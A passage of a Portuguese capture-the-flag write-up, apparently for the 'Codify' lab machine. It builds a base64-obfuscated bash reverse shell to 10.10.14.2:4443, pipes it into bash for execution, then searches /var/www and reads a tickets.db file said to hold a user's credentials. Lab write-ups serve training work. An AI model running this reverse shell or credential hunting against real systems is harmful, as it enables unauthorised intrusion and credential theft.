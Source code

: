 Não deu certo mesmo usando encode base64

Resolvi usar o bash e criar um shell script 

```shell
echo "echo  '#\!/bin/bash                                                                  
/bin/bash -i >& /dev/tcp/10.10.14.2/4443 0>&1' > xd.sh;chmod +x xd.sh"|base64
```
{: .nolineno }
Executado na página

`echo "ZWNobyAgJyMhL2Jpbi9iYXNoCi9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDMgMD4mMScgPiB4ZC5zaDtjaG1vZCAreCB4ZC5zaAo="|base64 -d|bash`
![Alt text](/assets/img/codify7.png)

Esta criado nosso script, executei e recebi a reverse shell.
![Alt text](/assets/img/codify8.png)

## **Exploração**

Vasculhando a pasta /var/www encontrei esse arquivo tickets.db com credenciais do usuário joshua. 

```shell
vc@codify:/var/www/html$ ls
index.html
svc@codify:/var/www/html$ ls -la
total 20
drwxr-xr-x 2 svc  svc   4096 Apr 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12 17:40 ..
-rw-r--r-- 1 svc  svc  10671 Apr 12  2023 index.html
svc@codify:/var/www/html$ cd ..
svc@codify:/var/www$ ls
contact  editor  html
svc@codify:/var/www$ cd editor/
svc@codify:/var/www/editor$ ls
index.js  node_modules  package.json  package-lock.json  templates
svc@codify:/var/www/editor$ cd ..
svc@codify:/var/www$ ls
contact  editor  html
svc@codify:/var/www$ cd contact/
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ cat tickets.db 
```